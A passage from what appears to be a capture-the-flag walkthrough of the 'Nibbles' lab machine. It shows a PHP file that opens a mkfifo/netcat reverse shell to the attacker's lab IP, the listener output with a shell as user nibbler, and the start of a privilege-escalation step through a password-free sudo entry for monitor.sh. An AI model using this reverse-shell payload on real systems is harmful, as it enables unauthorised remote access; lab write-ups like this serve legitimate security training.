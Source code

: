 

    root@kali# cat callback.php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8082 >/tmp/f"); ?>



Then repeat the steps above, and on visiting `image.php`:



    root@kali# nc -lnvp 8082
    listening on [any] 8082 ...
    connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 55268
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)



## Privesc

Either through running `LinEnum.sh` or just by checking `sudo -l`, we'll
see the following:



    nibbler@Nibbles:/$ sudo -l
    sudo: unable to resolve host Nibbles: Connection timed out
    Matching Defaults entries for nibbler on Nibbles:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User nibbler may run the following commands on Nibbles:
        (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh



So with no password, we can run `monitor.sh`.

`monitor.sh` is a publicly available script:



    nibbler@Nibbles:/home/nibbler/personal/stuff$ head monitor.sh
                      ####################################################################################################
                      #                                        Tecmint_monitor.sh                                        #
                      # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                      # If any bug, report us in the link below                                                          #
                      # Free to use/edit/distribute the code below by                                                    #
                      # giving proper credit to Tecmint.com and Author                                                   #
                      #                                                                                                  #
                      ####################################################################################################
    #! /bin/bash